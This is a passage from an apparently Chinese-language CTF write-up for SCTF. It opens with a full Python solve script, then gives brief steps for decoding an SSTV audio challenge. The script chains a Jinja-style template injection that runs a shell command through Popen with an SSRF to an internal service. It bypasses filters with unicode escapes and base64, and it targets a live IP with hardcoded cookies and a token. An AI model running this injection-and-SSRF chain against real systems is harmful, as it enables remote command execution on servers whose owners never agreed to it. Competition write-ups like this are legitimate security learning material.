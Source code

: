 




最后的payload:

```python
import requests
import base64
import json
num1=1
num2=2
symbols="-{{''.__class__.__mro__[1].__subclasses__()[409]('/readflag',shell=True,stdout=-1).communicate()}}-"
data={
    "num1":num1,
    "num2":num2,
    "symbols":symbols
}
payload=json.dumps(data).replace("{{","\\u007b\\u007b").replace("}}","\\u007d\\u007d")
payload=base64.b64encode(payload)
print(payload)
burp0_url = "http://39.104.19.182:80/home/"
burp0_cookies = {"sessionid": "bd63u3ewjx05tc7ajvlkve7b9cu8h4kx", "csrftoken": "GBW7niMYrwP9fMP6jpgHN1ujcxEwuRQ4tMKdBDdnZvSlDny51S1K1cMmWtOsR0gO"}
burp0_headers = {"Pragma": "no-cache", "Cache-Control": "no-cache", "Accept": "application/json, text/plain, */*", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36", "Content-Type": "application/json;charset=UTF-8", "Origin": "http://39.104.19.182", "Referer": "http://39.104.19.182/home/", "Accept-Encoding": "gzip, deflate", "Accept-Language": "zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7", "Connection": "close"}
burp0_json={"token": "3ad9af405504233188f694a11ff22115", "url": "http://39.104.19.182//127.0.0.1:8000/rpc?url=http://127.0.0.1:5000/caculator&methods=POST&data={payload}".format(payload=payload)}
print(requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, json=burp0_json).text)
```



`SCTF{2b19246757c63738e7c40bbdf87c3be1}`

## Can you hear

We used the receiver to receive the information from the space station and tried to unlock the answer😀.

搜索 "空间站" "接收机" 信息 音频 等关键字找到
https://zhuanlan.zhihu.com/p/98103018
https://www.sohu.com/a/159552694_610733
SSTV关键字

https://zhuanlan.zhihu.com/p/105460358
https://ourcodeworld.com/articles/read/956/how-to-convert-decode-a-slow-scan-television-transmissions-sstv-audio-file-to-images-using-qsstv-in-ubuntu-18-04

下载 mmsstv
修改录音设备为立体声混音
具体操作为：Option->Soundcard input level
播放音频得到flag:
